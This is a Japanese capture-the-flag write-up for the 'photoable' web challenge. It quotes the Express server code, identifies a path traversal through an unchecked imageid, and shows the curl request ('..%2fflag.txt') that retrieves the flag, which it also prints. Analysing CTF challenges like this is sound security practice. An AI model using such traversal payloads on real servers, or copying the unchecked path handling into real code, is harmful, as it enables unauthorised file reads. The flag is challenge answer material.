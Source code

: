 # photoable:web:270pts
My games always play at like 3 fps, so I thought it'd be more efficient to send individual frames rather than videos. Anyways, I'm sure my website is unhackable, and that you are never gonna find the flag on my server!  
[photoable.tjc.tf](https://photoable.tjc.tf/)  

Downloads  
[server.zip](server.zip)  

# Solution
ソースとサイトが渡される。  
Photoable  
[site1.png](site/site1.png)  
![site2.png](site/site2.png)  
![site3.png](site/site3.png)  
画像をURLを指定することで、外部からアップロードできるようだ。  
jsで動いており、拡張子チェックも十分なためアップロードしたファイル経由でのRCEは難しそうだ。  
ソースを見るとファイルの読み取りは以下のようであった。  
```js
~~~
function getFileName(uuid) {
  let ext = uuid2ext[uuid] ?? "";
  return uuid + ext;
}
~~~
app.get("/image/:imageid", (req, res) => {
  let { imageid } = req.params;

  res.render("image", {
    imagelink: `photobucket/${getFileName(imageid)}`,
    image: imageid,
  });
});

app.get("/image/:imageid/download", (req, res) => {
  let { imageid } = req.params;

  res.sendFile(path.join(__dirname, `photobucket/${getFileName(imageid)}`));
});

app.listen(8080, async () => {
  fs.readFile("flag.txt", (err, data) => console.log(`Flag loaded!`));
});
```
同一ディレクトリにあるflag.txtを読み取ることを目標とする。  
`imageid`を`getFileName`へ渡しているが、`uuid2ext`に存在しない場合、拡張子が付加されずそのままの値が返ってくる。  
`path.join`であるため、`imageid`が`../flag.txt`でパストラバーサルが可能であることがわかる。  
以下のようなリクエストを投げる。  
```bash
$ curl https://photoable.tjc.tf/image/..%2fflag.txt/download
tjctf{1fram3_1fl4g}
```
flagが得られた。  

## tjctf{1fram3_1fl4g}